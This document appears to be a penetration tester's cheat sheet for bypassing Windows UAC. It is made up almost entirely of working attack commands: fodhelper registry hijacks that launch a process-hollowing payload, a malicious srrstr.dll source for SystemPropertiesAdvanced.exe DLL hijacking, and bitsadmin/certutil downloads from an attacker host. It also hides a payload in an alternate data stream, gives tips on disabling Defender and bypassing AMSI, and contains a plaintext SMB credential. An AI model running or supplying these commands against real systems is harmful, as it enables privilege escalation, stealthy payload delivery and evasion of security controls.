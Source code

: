- Can be useful if you have Admin session but want SYSTEM session
- Try running process Hollower w/ PPID spoofing from admin session first
- If possible, turn off Defender RTP first!
- If it doesn't work, try again!
- can also add an RDP user and launch system shell via psexec...
- **Best Method:** Fodhelper bypass manually - add new local admin, connect in, and launch shellcode runner

### Meterpreter
- Will likely get caught by Defender
- Can try exploit/windows/local/bypassuac_injection_winsxs

### *Fodhelper.exe

    **Run manually w/ a simple payload - add a new local Administrator**
    //Tips:
        *check with: shell; whoami /groups > look for Mandatory High Label; otherwise will have to perform bypass if Admin
        //msf:  ***set EnableStageEncoding true; set StageEncoder x64/xor_dynamic - DON'T USE zutto_dekiru!
        //if user has to enter creds of another to approve UAC, might need reg key in that user's hive (not hkcu)!

    //Fodhelper.exe UAC Bypass Triggers:
        //**For UAC bypass - Add Trigger using PS (via macro, etc.) OR LAUNCH DIRECTLY THE .EXE
        //the Trigger would go within a Word macro, etc., along with downloading/decoding the .exe or .js payload first - or within some other RCE
        //Meterpreter Method:
            //(after getting initial session, to get 2nd session) - REQUIRES AMSI BYPASS:
            use exploit/windows/local/bypassuac_fodhelper; show targets; set target ...; set session ...; set payload ....
        //PS Method 1 - SMB:
            New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "cmd.exe /c \\192.168.45.188\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe" -Force;New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force;start-sleep -s 5;C:\Windows\System32\fodhelper.exe
        //PS Method 2 - Local (more likely):
            //tries to launch priv shell, but if not, launches reg shell
            New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "cmd.exe /c C:\Windows\Tasks\Hollow.exe" -Force;New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force;start-sleep -s 5;try { start-process -windowstyle hidden C:\Windows\System32\fodhelper.exe; } catch [System.Exception] { cmd.exe /c C:\Windows\Tasks\Hollow.exe; }
            //transfer the .exe first:
                certutil -encode \\192.168.45.188\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\192.168.45.188\visualstudio\file.txt
                bitsadmin /Transfer myJob http://192.168.45.188/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\Windows\Tasks\Hollow.exe && del C:\users\student\enc.txt
        //CMD.exe Method:
            reg add HKCU\Software\Classes\ms-settings\shell\open\command /t REG_SZ /ve /d "cmd.exe /c C:\Windows\Tasks\Hollow.exe" /f && reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /f && timeout /t 5 && cmd.exe /c C:\Windows\System32\fodhelper.exe || cmd.exe /c C:\Windows\Tasks\Hollow.exe
        //InstallUtil method (to still run PS even if it's blocked) - Word Macro snip for Regular .Net Shellcode Runner:
            $payload = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe"
        //JScript Method:
            //First build w/ DotNetToJScript
            //add amsi bypass to top of script!
                    certutil -encode \\192.168.45.188\visualstudio\DotNetToJScript-master\DotNetToJScript\bin\Release\Hollow.js \\192.168.45.188\visualstudio\file.txt
                    bitsadmin /Transfer myJob http://192.168.45.188/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:Hollow.js" && del C:\users\student\enc.txt
                    wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:Hollow.js" 
            //.Net script difference:
                string regValCmd = "wscript c:\\windows\\tasks\\test5.txt:Hollow.js";
            //Trigger for jscript method:
                New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "wscript c:\windows\tasks\test5.txt:Hollow.js" -Force;New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force;start-sleep -s 5;try { start-process -windowstyle hidden C:\Windows\System32\fodhelper.exe; } catch [System.Exception] { wscript c:\windows\tasks\test5.txt:Hollow.js; }

### *SystemPropertiesAdvanced.exe

    //Edit command in srrstr.c:
        WinExec("\\\\192.168.49.121\\visualstudio\\Hollow\\Hollow\\bin\\x64\\Release\\Hollow.exe", 0);
        //*Or:  WinExec("HollowUAC.exe", 0);             //works if app is in %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\
        //Test:  WinExec("calc2.exe", 0);

    //Compile srrstr.c:
        sudo i686-w64-mingw32-gcc-win32 srrstr.c -lws2_32 -o /var/www/html/srrstr.dll -shared && cp /var/www/html/srrstr.dll /home/kali/data/

    //Transfer DLL:
        IWR -Uri http://192.168.49.121/srrstr.dll -OutFile C:\Users\bob\AppData\Local\Microsoft\WindowsApps\srrstr.dll
        //Or:  
            del \\192.168.49.121\visualstudio\file.txt && certutil -encode \\192.168.49.121\visualstudio\srrstr.dll \\192.168.49.121\visualstudio\file.txt
            sudo cp  /home/kali/data/file.txt /var/www/html/
            bitsadmin /Transfer myJob http://192.168.49.121/file.txt %USERPROFILE%\Desktop\enc.txt && certutil -decode %USERPROFILE%\Desktop\enc.txt "%USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll" || del %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll
            certutil -decode %USERPROFILE%\Desktop\enc.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll && del %USERPROFILE%\Desktop\enc.txt
        //Or:
            smbclient //192.168.189.132/C$ -U prod.corp1.com/bob%abc123!
            put /home/kali/data/srrstr.dll C:\Users\bob\AppData\Local\Microsoft\WindowsApps\

    //HollowUAC.exe method addition:
        //dev:  del \\192.168.49.121\visualstudio\file2.txt && certutil -encode \\192.168.49.121\visualstudio\Hollow\HollowUAC\bin\x64\Release\HollowUAC.exe \\192.168.49.121\visualstudio\file2.txt
        //kali:  sudo cp  /home/kali/data/file2.txt /var/www/html/
        //tgt:  
            bitsadmin /Transfer myJob http://192.168.49.121/file2.txt %USERPROFILE%\Desktop\enc2.txt && certutil -decode %USERPROFILE%\Desktop\enc2.txt "%USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe" || del %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe
            certutil -decode %USERPROFILE%\Desktop\enc2.txt "%USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe" && del %USERPROFILE%\Desktop\enc2.txt

    //optional check:  rundll32.exe C:\Users\bob\AppData\Local\Microsoft\WindowsApps\srrstr.dll,xyz
    //***trigger:  cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe

    //OVERALL:
        cmd.exe /c bitsadmin /Transfer myJob http://192.168.49.121/file.txt %USERPROFILE%\Desktop\enc.txt && certutil -decode %USERPROFILE%\Desktop\enc.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll || del %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll
        cmd.exe /c timeout /T 25 && certutil -decode %USERPROFILE%\Desktop\enc.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\srrstr.dll & del %USERPROFILE%\Desktop\enc.txt
        $payload = "cmd.exe /c bitsadmin /Transfer myJob http://192.168.49.121/file2.txt %USERPROFILE%\Desktop\enc2.txt && certutil -decode %USERPROFILE%\Desktop\enc2.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe || del %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe
        cmd.exe /c timeout /T 25 && certutil -decode %USERPROFILE%\Desktop\enc2.txt %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\HollowUAC.exe & del %USERPROFILE%\Desktop\enc2.txt & echo 1 > c:\windows\tasks\a.txt"
        cmd /c timeout /T 40 && C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe

    //Only works for the SysWOW64 version?
    //Other affected binaries:
        SystemPropertiesComputerName.exe
        SystemPropertiesHardware.exe
        SystemPropertiesProtection.exe
        SystemPropertiesRemote.exe

    #############srrstr.c#############
    #include <windows.h>

    BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
        switch(dwReason) {
            case DLL_PROCESS_ATTACH:
                //WinExec("c:\\windows\\system32\\calc.exe", 0);
                WinExec("\\\\192.168.45.158\\visualstudio\\Hollow\\Hollow\\bin\\x64\\Release\\Hollow.exe", 0);
            case DLL_PROCESS_DETACH:
                break;
            case DLL_THREAD_ATTACH:
                break;
            case DLL_THREAD_DETACH:
                break;
        }

        return 0;
    }

### PowerSploit

    Invoke-WScriptUACBypass -Command cmd.exe -WindowStyle 'Visible'
    Invoke-BypassUAC -PayloadPath .\payload.dll -Verbose

### SharpBypassUAC (Automated)

    //Will probably get blocked by Defender
    //Bypass options:  eventvwr, fodhelper, computerdefaults, sdclt, slui

    //Encode your payload command:  echo -n 'cmd /c start calc.exe' | base64 -w0
    //Usage:  SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

    //Hollow.exe Example (cmd /c start c:\windows\tasks\Hollow.exe)
        copy \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe c:\windows\tasks\
        \\192.168.49.121\visualstudio\SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIHN0YXJ0IGM6XHdpbmRvd3MJYXNrc1xIb2xsb3cuZXhl

    //Hollow.exe Example 2 (\\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe)
        copy \\192.168.49.121\visualstudio\SharpBypassUAC.exe c:\windows\tasks\
        c:\windows\tasks\SharpBypassUAC.exe -b computerdefaults -e XDE5Mi4xNjguNDUuMjMyC2lzdWFsc3R1ZGlvXEhvbGxvd1xIb2xsb3cIaW5kXFJlbGVhc2VcSG9sbG93LmV4ZQ==